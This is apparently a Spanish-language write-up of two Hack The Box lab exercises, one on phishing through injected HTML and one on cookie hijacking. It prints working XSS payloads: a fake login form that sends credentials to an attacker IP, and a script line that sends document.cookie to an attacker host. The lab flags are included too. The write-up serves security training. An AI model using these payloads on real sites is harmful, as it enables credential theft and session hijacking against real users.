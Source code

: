 # Laboratorio: Pishing Attack 🎣

1. Vamos a la página web

<p align="center">
    <img src="./assets/05-Web.PNG" width=370>
</p>

---
2. Creamos nuestro **`formulario malicioso`**
* **Payload:** `document.write('<h3>Please login to continue</h3><form action=http://[OUR_IP]:[Port]><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');`

* Nos ponemos en escucha con **Python** **`python3 -m http.server [Port]`**

---
3. Si enviamos el **payload** veremos nuestro formulario
<p align="center">
    <img src="./assets/06-Form.PNG" width=420>
</p>

---
4. Visitamos el fichero `/phishing/send.php`, enviamos toda la **URL** y presionamos en **`Send`**
---
5. Ahora, veremos los **logs** de nuestro servidor en **Python**
<p align="center">
    <img src="./assets/08-Log.PNG" width=420>
</p>

---
6. Nos autenticamos en `/phishing/login.php` con las credenciales previas
---
7. Vemos la **flag** 🏴: **`HTB{r3f13c73d_cr3d5_84ck_2_m3}`**


# Laboratorio: Cookie Hijacking 🍪

1. Vamos a la página web

<p align="center">
    <img src="./assets/07-Form.PNG" height=450>
</p>

---

2. Después de testear con varios payload de **XSS** el que funciona es **`"><script src="http://<IP tun0>"></script>`** en el campo **`Profile Picture URL`**

---
3. Creamos un archivo **script.js** con el siguiente contenido
```js
new Image().src='http://<IP>/index.php?c='+document.cookie;
```
---

4. Enviamos la petición de registro con este **payload** en el campo **Profile Picture URL**

* **`"><script src="http://<IP tun0>/script.js"></script>`**
---
5. Nos ponemos en escucha previamente con **Python** `python3 -m http.server 80`
---
6. Veremos lo siguiente en los **logs** del servidor
<p align="center">
    <img src="./assets/09-Cookie.PNG" width=420>
</p>

---
7. Reemplazamos los valores previos en la parte de **Storage** usando las **Herramientas de Desarrollador**
<p align="center">
    <img src="./assets/10-Storage.PNG" width=340>
</p>

---
8. Recargamos la página web y veremos la **flag** 🏴
* **`HTB{4lw4y5_53cur3_y0ur_c00k135}`**

